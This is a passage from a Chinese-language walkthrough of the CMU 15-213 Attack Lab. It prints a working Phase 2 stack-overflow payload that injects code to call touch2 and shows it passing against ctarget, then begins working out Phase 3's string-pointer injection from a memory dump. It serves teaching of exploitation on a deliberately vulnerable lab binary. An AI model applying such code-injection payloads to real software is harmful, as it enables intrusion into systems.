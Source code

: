 ```plaintext
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

将其保存在`phase2.txt`中, 进行测试

```shell
$ ./hex2raw <phase2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

## Phase 3

首先， 看`touch3`的`c`代码

```c
void touch3(char *sval)
{
   vlevel=3; /* Partofvalidationprotocol */
   if (hexmatch(cookie,sval)){
      //...
   }
```

`touch3`的参数是一个指针，指向了一个**字符串**, 然后调用`hexmatch`进行比较。所以可以得到下面的信息：
传递给`%rdi`的值应该是`cookie`的地址，并且要以`ASCII`来表示

通过查表得到字符串的表示：

```c
// 0x59b997fa
35 39 62 39 39 37 66 61
```

调用`hexmatch`前，位置`0x5561dc78`处的信息：

```c
0x5561dc78:     0xb8c7c748      0x685561dc      0x004018fa      0x000000c3
0x5561dc88:     0xffffffff      0xffffffff      0xffffffff      0xffffffff
0x5561dc98:     0x00401916      0x00000000      0x55586000      0x00000000

0x5561dca8:     0xffffffff      0xffffffff      0xffffffff      0xffffffff
0x5561dcb8:     0x39623935      0x61663739      0xf4f4f400      0xf4f4f4f4
```

